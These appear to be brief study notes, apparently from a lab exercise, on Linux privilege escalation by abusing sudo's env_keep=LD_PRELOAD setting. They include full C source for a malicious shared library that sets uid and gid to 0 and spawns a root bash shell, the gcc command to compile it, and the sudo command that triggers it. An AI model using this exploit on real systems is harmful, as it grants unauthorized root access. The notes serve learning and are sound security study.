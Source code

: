 LD= dynamic linker
this means that the shared libraries are loaded first and to exploit first we have to create a custom malicious library  
How to understand the vulnerability
`env_keep=LD_PRELOAD` is enables this means it is vulnerable to LD_PREALOAD
 
![](/images/sudo%20-l.png)

Exploitation 
create a file called shell.c
with code

" 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}


compile it the command 
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
this will generate a .so file -> shell.so (in our case )

run the file with binaries/files with have root permissions to work with 

`sudo LD_PRELOAD=/home/user/shell.so apache2`

"

![](/images/sudo%20ld_preload.png)
